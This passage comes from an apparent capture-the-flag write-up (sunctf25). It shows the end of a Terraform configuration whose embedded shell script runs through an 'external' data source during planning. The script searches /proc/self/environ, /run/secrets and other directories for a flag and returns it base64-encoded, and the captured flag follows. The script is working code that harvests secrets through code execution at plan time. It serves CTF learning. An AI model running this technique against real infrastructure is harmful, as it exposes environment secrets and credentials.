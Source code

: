     f=''
    
    # 1) Environment (common in CTF containers)
    if tr '\0' '\n' &#x3C;/proc/self/environ | awk 'tolower($0) ~ /sunctf/ {print; exit}' >/tmp/_hit; then
        f="$(cat /tmp/_hit)"
    fi
    
    # 2) Likely files
    if [ -z "$f" ]; then
        for fp in /flag /flag.txt /run/secrets/flag /run/secrets/flag.txt /app/flag /app/flag.txt /workspace/flag /workspace/flag.txt /etc/flag /tmp/flag; do
            [ -r "$fp" ] || continue
            awk 'tolower($0) ~ /sunctf/ {print; exit}' "$fp" >/tmp/_hit &#x26;&#x26; { f="$(cat /tmp/_hit)"; break; } || true
        done
    fi
    
    # 3) Small, safe directories
    if [ -z "$f" ]; then
    for d in /proc/self /run /var/run /app /workspace /tmp /etc /home; do
        grep -airh -m1 'sunctf' "$d" >/tmp/_hit &#x26;&#x26; { f="$(cat /tmp/_hit)"; break; } || true
        done
    fi
    
    enc="$(printf %s "$f" | head -c 20000 | base64 | tr -d '\n\r')"
    printf '{"flag_b64":"%s"}\n' "$enc"
    EOT
}

data "external" "hunt" {
    program = ["/bin/sh", "-lc", local.hunt]
    query = {}
}

output "flag" {
    value = chomp(base64decode(try(data.external.hunt.result.flag_b64, "")))
    sensitive = false
}
</code></pre>

\
`sunctf25{1_th0ught_t3rr4f0rm_pl4n_w4s_h4rml3ss?}`

***

## MISC

### Packet Pallette
